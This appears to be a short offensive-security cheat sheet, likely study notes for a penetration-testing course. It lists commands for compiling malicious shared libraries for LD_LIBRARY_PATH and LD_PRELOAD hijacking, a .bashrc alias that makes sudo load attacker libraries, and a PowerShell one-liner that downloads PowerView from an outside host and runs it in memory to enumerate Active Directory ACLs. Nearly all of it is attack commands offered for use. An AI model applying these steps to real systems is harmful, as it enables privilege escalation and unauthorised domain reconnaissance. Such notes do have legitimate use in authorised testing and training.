 <hr>
# Linux libraries
<hr>
Compile lib LD_LIBRARY_PATH
```shell
gcc -Wall -fPIC -c -o hax.o hax.c
gcc -shared -o libhax.so hax.o
```

with map
```shell
gcc -Wall -fPIC -c -o hax.o hax.c
gcc -shared -Wl,--version-script gpg.map -o libgpg-error.so.0 hax.o
```

Compile lib LD_PRELOAD
```shell
gcc -Wall -fPIC -z execstack -c -o evil_geteuid.o preload.c
gcc -shared -o evil_geteuid.so evil_geteuid.o -ldl
export LD_PRELOAD=/home/offsec/evil_geteuid.so
cp /etc/passwd /tmp/testpasswd
```

Add to .bashrc
```shell
alias sudo="sudo LD_LIBRARY_PATH=/home/offsec/ldlib"
```

View loaded libs
```shell
ldd /usr/bin/top
```

Get symbols
```shell
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print "int",$8}' | sed 's/@@GPG_ERROR_1.0/;/g'
```

Create version map
```shell
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print $8}' | sed 's/@@GPG_ERROR_1.0/;/g'
```

<hr>
# Active Directory
<hr>
## Enum

View object ACL's
```powershell
(new-object system.net.webclient).downloadstring('http://192.168.1.1/powerview.ps1') | IEX

Get-ObjectAcl -Identity <username>
Get-ObjectAcl -Identity <username> -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}

```
